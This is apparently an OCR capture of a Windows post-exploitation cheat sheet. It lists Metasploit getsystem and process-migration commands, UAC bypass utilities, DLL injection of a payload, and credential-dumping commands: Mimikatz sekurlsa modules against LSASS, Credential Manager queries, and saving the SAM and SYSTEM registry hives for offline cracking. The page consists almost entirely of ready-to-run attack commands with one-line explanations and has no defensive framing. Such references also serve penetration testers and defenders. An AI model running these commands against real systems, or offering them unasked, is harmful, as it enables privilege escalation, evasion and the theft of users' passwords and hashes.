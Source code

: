 **Privilege Escalation (Metasploit)**
```bash
getsystem
getsystem -t 1
getsystem -t 2
getsystem -t 3
```
Escalate to SYSTEM privileges using multiple techniques.

**UAC Bypass**
```bash
fodhelper.exe
eventvwr.exe
computerdefaults.exe
sdclt.exe
```
Bypass User Access Control using various Windows utilities.

**DLL Injection**
```bash
inject PID C:\path\to\payload.dll
reflective_inject PID C:\path\to\payload.dll
```
Inject DLL into running process for code execution.

**Process Migration**
```bash
migrate PID
migrate -N explorer.exe
```
Move payload to different process for evasion.

### Credential Dumping

**Windows Credential Manager**
```bash
cmdkey /list
vaultcmd /list
dpapi.exe /in:"C:\path\to\credential"
```
Extract stored Windows credentials.

**LSASS Dump**
```bash
sekurlsa::logonpasswords
sekurlsa::msv
sekurlsa::kerberos
sekurlsa::tspkg
```
Dump credentials from LSASS process memory using Mimikatz.

**SAM Registry Hive**
```bash
reg save HKLM\sam C:\sam.bak
reg save HKLM\system C:\system.bak
```
Extract SAM and SYSTEM hives for offline password cracking.
